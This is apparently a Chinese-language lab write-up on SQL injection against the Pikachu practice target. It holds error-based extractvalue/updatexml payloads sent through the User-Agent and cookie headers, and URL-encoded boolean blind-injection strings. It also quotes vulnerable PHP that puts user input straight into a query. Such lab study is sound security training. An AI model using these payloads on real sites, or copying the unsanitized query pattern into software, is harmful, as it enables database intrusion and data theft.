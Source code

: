 其实也属于insert注入，在cookie和user-agent插入但引号都会导致其报错，使用报错注入

这里有个疑问，将空格url编码为+反而不行，难道是插入语句没有使用**{}**?

```sql
a' and extractvalue(1,concat(0x7c,(select database()),0x7c)) and '

User-Agent: 1' and extractvalue(1,concat(0x7c,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7c)) and ' // 这里使用字符a不行，要使用数字比如1才行，十分懵逼
```

或者updatexml

```sql
User-Agent: 1' and updatexml(1,concat(0x7c,(select database()),0x7c),1) and ' 

1' and updatexml(1,concat(0x7c,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7c),1) and '// 同样使用字符不行，得用数字。
```

## 盲注

核心代码

```sql
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理，直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合
    //mysqi_query不打印错误描述,即使存在注入,也不好判断
    $result=mysqli_query($link, $query);//
//     $result=execute($link, $query);
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```

语句执行成功会返回id和邮箱，否则会提示username不存在

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220621222140-083waey.png)

`vince'+and+length(database())>%3d7%23` // 判断数据库长度，为7位

`?name=vince'+and+substr(database(),1,1)%3d'p'%23`// 猜数据库名

可以使用burpsuite配合ascii函数爆破33-127位ascii的可见字符

```sql
vince'+and+ascii(substr(database(),1,1))%3d112%23
```

